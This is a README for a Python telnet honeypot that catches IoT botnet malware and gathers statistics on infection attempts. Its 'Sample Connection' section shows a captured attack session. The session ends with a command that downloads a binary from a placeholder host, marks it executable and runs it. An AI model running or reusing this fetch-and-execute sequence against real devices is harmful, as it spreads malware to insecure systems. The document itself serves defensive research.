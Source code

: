 # Telnet IoT honeypot

Live Demo: http://phype.pythonanywhere.com/

'Python telnet honeypot for catching botnet binaries'

This project implements a python telnet server trying to act
as a honeypot for IoT Malware which spreads over horribly
insecure default passwords on telnet servers on the internet.

Other than https://github.com/stamparm/hontel or https://github.com/micheloosterhof/cowrie (examples),
which provides full (via chroot) or simulated behaviour of a linux
system this honeypots goal is just to collect statistics of (IoT) botnets.
This means that the honeypot must be made to work with every form of automated telnet session,
which may try to infect the honeypot with malware.
Luckily, these malwares infection processes are quite simple,
just using wget do download something and running it.

## Architekure

The application has a client/server architekture,
with a client (the actual honeypot) accepting telnet connections
and a server aggregating connection data and sample analysis.

However, for local deployments, the application can also be run
in local mode to eliminate the need to run a client and server locally.

# Running

The application has a config file named config.py.
Samples are included for local and client/server deployments.

## Client/Local Mode

	python honey.py
	
## Server

	python backend.py

## Sample Connection

	enable
	shell
	sh
	cat /proc/mounts; /bin/busybox PEGOK
	cd /tmp; (cat .s || cp /bin/echo .s); /bin/busybox PEGOK
	nc; wget; /bin/busybox PEGOK
	(dd bs=52 count=1 if=.s || cat .s)
	/bin/busybox PEGOK
	rm .s; wget http://example.com:4636/.i; chmod +x .i; ./.i; exit 

## Images

![Screenshot 1](images/screen1.png)

![Screenshot 2](images/screen2.png)
